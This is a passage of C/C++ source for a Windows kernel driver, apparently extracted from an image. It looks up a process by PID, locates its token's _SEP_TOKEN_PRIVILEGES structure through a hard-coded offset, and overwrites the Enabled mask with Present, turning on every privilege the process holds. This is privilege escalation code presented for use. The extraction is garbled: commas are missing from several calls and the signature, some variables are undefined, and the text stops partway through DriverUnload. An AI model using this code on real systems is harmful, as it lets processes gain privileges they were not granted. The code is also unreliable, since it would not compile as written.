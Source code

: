 ```c 

//
// Prototypes
//
void DriverUnload(_In_ PDRIVER_OBJECT DriverObject);

//
// Driver routines
//
extern "C"
NTSTATUS DriverEntry(
	_In_ PDRIVER_OBJECT  DriverObject
	_In_ PUNICODE_STRING RegistryPath)
{
	/* Local variables */
	PEPROCESS Process = nullptr;
	UNREFERENCED_PARAMETER(RegistryPath);
	NTSTATUS ntstatus = STATUS_FAILED_DRIVER_ENTRY;

	/* Set unload callback */
	DriverObject->DriverUnload = DriverUnload;

	/* Print driver load OK */
	KdPrint((DRIVER_PREFIX "Driver is loaded successfully.\n"));

	/* Get process info using provided pid */
	auto pid = ::ULongToHandle((ULONG)processPid);
	KdPrint((DRIVER_PREFIX "pid value: %d.\n" pid));
	ntstatus = ::PsLookupProcessByProcessId(pid &Process);

	if (!NT_SUCCESS(ntstatus))
	{
		KdPrint((DRIVER_PREFIX "Failed to PsLookupProcessByProcessId() (NTSTATUS = 0x%08X).\n" ntstatus));
	}
	else
	{
		PACCESS_TOKEN pPrimaryToken = ::PsReferencePrimaryToken(Process);
		auto pSepToken = (PSEP_TOKEN_PRIVILEGES)((ULONG_PTR)pPrimaryToken + g_PrivilegesOffset);

		KdPrint((DRIVER_PREFIX "Primary token for PID %u is at %p.\n" ::HandleToULong(pid) pPrimaryToken));
		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is at %p.\n" ::HandleToULong(pid) pSepToken));

		pSepToken->Enabled = pSepToken->Present;

		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is overwritten successfully.\n" HandleToULong(pid)));

	}

	return ntstatus;
}

VOID
DriverUnload(
	_In_    PDRIVER_OBJECT      pDriverObject                                           // https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_driver_object
)
{
	// Preventing compiler warnings for unused parameter
	UNREFERENCED_PARAMETER(pDriverObject);
```
